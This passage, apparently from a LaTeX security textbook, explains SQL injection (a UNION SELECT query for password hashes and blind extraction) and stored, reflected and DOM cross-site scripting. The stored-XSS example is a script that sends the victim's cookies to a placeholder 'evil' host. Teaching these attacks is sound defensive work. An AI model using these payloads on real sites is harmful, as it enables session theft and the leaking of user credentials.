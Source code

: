 \begin{example}
\texttt{cat='' UNION SELECT password FROM users--} appends password hashes to the product list. Blind: \texttt{AND SUBSTRING(pw,1,1)='a'} returns different pages for true/false, leaking one bit per request; automation extracts the whole secret.
\end{example}

\section{Cross-Site Scripting (XSS)}
\label{sec:xss-web}
XSS injects JavaScript that the victim's browser executes in the origin of the vulnerable site, stealing cookies or performing actions as the user.

\begin{description}[leftmargin=1.2em,itemsep=0.35em]\sloppy
    \item[Stored XSS] Payload saved on the server (comment, profile) and served to every visitor. Example \texttt{<script>fetch('//evil?c='+document.cookie)</script>} persists.
    \item[Reflected XSS] Payload arrives in the request (\texttt{?q=<svg onload=alert(1)>}) and is echoed verbatim. Needs a lure URL.
    \item[DOM XSS] No server reflection; client JS sinks attacker data into \texttt{innerHTML} or \texttt{eval}: \texttt{el.innerHTML = location.hash.slice(1)}.
\end{description}\fussy

\begin{figure}[h]\centering
{}
\caption{XSS flows. Stored persists on the server; reflected and DOM require the victim to visit a crafted URL but execute identically in the page's origin.}
\label{fig:xss-flow}
\end{figure}

